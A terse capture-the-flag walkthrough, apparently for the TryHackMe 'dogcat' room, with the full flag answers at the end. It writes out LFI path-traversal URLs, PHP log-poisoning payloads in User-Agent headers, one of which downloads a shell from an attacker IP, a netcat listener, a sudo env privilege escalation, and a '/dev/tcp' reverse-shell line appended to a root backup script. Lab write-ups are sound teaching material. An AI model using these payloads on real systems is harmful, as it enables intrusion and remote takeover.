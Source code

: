 <pre>
Machine IP: 10.10.109.201
    Enum:
        Open ports:
22/tcp open  ssh
80/tcp open  http    

Enum port 80:
    LFI inclusion:
    http://10.10.172.21/?view=dog/../../../../../../etc/passwd&ext
    http://10.10.172.21/?view=dog/../../../../../var/log/apache2/access.log&ext=


Lets get flags!

Flag1:
    Go to burpsuite at repeater: burp
        GET /?view=../../../..//var/log/apache2/cat/../access.log&ext= HTTP/1.1
Host: 10.10.109.201
User-Agent: <?php system('id) ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

    Lets make a php reverse shell and make a python http.server 80

    Upload reverse shell: burp
        GET /?view=../../../../var/log/apache2/cat/../access.log&ext= HTTP/1.1
Host: 10.10.109.201
User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://10.9.18.191:80/shell.php'));?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
 

Make a listener:
$ lrwrap nc -lvnp 9003
And run the reverse shell: from browser
    http://10.10.109.201/?view=cats/../shell
At /var/www/html flag1.php
Lets priv esc:
    $ sudo -l
User www-data may run the following commands on 5d6c733eca8b:
    (root) NOPASSWD: /usr/bin/env
    $ sudo env /bin/sh
        And got root! But not dogcat hostname
    /var/www/flag2_QMW7JvaY2LvK.txt => flag2
    /root/flag3.txt => flag3

    

Lets change hostname:
    $ /opt/backups
    $ echo "bash -i >& /dev/tcp/10.8.129.79/9003 0>&1" >> backup.sh => reverse shell 
        Wait 1min with netcat listener on attacker box 
    Flag4 /root
    


    Flag1:THM{Th1s_1s_N0t_4_Catdog_ab67edfa}
    Flag2:THM{LF1_t0_RC3_aec3fb}
    Flag3:THM{D1ff3r3nt_3nv1ronments_874112}
    Flag4:THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
</pre>
